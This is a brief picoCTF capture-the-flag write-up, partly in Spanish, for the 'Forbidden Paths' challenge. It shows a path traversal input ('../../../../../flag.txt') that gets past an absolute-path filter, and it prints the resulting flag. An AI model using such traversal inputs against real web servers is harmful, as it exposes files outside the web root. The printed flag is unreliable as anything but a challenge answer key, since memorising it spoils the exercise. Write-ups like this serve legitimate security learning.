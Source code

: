 # USERNAME -> amcdanymx

# Forbidden Paths


## Description
Can you get the flag?Here's the [website](http://saturn.picoctf.net:55827/).We know that the website files live in `/usr/share/nginx/html/` and the flag is at `/flag.txt` but the website is filtering absolute file paths. Can you get past the filter to read the flag?

## Pistas

- (None)

## Solución

En este reto basicamente tenemos que insperccionar el sitio nuevamente, ahora nos dice que hay que filtrar por las rutas de los archivos para encontrar la bandera, intente ingresando al archivo con ruta /flag.txt pero me salió un error:
```
Not Authorized

```

En el campo del sitio web lo que hice fue moverme entre las rutas para al final ingresar de la siguiente manera moviendome hasta la raíz

```
../../../../../flag.txt

```

```
picoCTF{7h3_p47h_70_5ucc355_e5a6fcbc}
```
